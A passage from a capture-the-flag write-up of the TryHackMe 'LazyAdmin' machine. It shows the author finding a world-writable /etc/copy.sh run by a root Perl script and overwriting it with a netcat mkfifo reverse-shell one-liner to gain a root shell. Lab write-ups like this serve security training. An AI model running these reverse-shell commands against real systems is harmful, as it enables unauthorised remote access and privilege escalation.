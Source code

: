 ```pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

So it runs a shell script `copy.sh` in the `/etc` directory. Similarly, let's check out the permissions and see what the
contents of the file are.

```bash
www-data@THM-Chal:/$ ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
www-data@THM-Chal:/$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Firstly, we have `rwx` permissions on it, which means that we can edit the file. Secondly, its pretty interesting
that `/etc/copy.sh`... is a reverse shell. What we need to do is to edit the IP address and set up a netcat listener.

Amazingly, the system did not have any text editors installed/enabled :|

![noeditors](./img/lazyadmin/14.png)

Alright fine. We can use echo instead to overwrite the file. Being a lazy pleb, I went to
a [Reverse Shell Generator](https://www.revshells.com/) to generate a similar reverse shell.

```bash
www-data@THM-Chal:/$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.95.111 2345 >/tmp/f" > /etc/copy.sh
www-data@THM-Chal:/$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.95.111 2345 >/tmp/f
```
